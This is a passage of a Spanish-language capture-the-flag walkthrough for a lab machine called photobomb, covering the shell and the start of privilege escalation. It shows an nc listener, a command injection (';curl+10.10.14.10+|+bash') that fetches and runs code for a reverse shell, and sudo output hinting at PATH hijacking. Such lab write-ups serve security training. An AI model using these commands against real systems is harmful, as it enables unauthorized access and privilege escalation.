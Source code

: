 #### nc
Y vamos a escuchar a conexiones entrantes con `nc`:
```shell-session
$ nc -nlvp 4040
```

![image](/assets/images/maquinas/Pasted image 20230727094651.png)

#### Inyección
Es momento de inyectar el comando que nos de la reverse shell: `;curl+10.10.14.10+|+bash`.

![image](/assets/images/maquinas/Pasted image 20230727095256.png)

Tenemos una reverse, ahora faltaría acondicionarla.

### Primer bandera
La encontramos en nuestro directorio home.
![image](/assets/images/maquinas/Pasted image 20230727100105.png)

---
## Escalamiento
Veamos si tenemos algún permiso como `sudo` o estamos en algún grupo privilegiado.

```shell-session
$ id  
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)  
$ sudo -l  
Matching Defaults entries for wizard on photobomb:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User wizard may run the following commands on photobomb:  
   (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Ningún grupo importante, pero vemos que podemos ejecutar el script `cleanup.sh` como root sin utilizar contraseña (`NOPASSWD`) y conservando nuestro `PATH` (`SETENV`). Lo que ya nos da una idea de **PATH hijacking**. Pero veamos el script `cleanup.sh`:

```bash
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
  
# clean up log files  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]  
then  
 /bin/cat log/photobomb.log > log/photobomb.log.old  
 /usr/bin/truncate -s0 log/photobomb.log  
fi  
  
# protect the priceless originals  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
